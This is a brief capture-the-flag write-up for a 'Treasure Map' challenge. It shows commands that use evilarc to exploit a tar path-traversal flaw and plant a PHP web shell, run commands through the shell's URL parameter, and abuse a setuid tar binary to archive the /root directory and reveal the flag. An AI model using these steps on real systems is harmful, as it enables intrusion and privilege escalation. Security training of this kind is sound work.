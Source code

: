 # Solution to the Treasure Map challange

- You can notice that the `tarfile` library is vulnarable to a zipslip , you can use a tool like `evilarc` to exploit it and upload an rce
ex : `python evilarc.py cmd.php  -f mal.tar.gz -p ../../../../../../var/www/html -d 0 -o unix`
- after uploading the rce you can test it by running linux commands like `http://your_url/cmd?x=ls` 
- we can then notice that the flag is inside the root directory so we need to figure out a way to access it , you can find at the end of the dockerfile `RUN chmod +s /bin/tar` meaning we can run the tar command as root
- after some research you can find that you can create an archive out of the /root directory (`tar --create tar.tar /root`)
- you will notice that the flag will be printed at the end of the output
